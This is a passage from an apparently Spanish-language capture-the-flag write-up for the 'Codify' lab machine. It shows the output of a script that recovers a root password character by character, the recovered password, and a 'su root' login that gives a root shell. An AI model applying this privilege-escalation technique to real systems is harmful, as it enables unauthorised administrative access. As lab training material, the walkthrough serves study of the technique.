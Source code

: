 Con el script, se obtiene el siguiente resultado:
```bash
joshua@codify:/tmp$ python3 dumper.py
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
Password dumpeada
kljh12k3jhaskjh12kjh3
```
{: .nolineno}

Y al probar la credencial obtenida, se puede ver que se ha obtenido acceso como el usuario root :3   .

```bash
joshua@codify:/tmp$ su root
Password: kljh12k3jhaskjh12kjh3
root@codify:/tmp# whoami
root
root@codify:/tmp#
```
{: .nolineno}
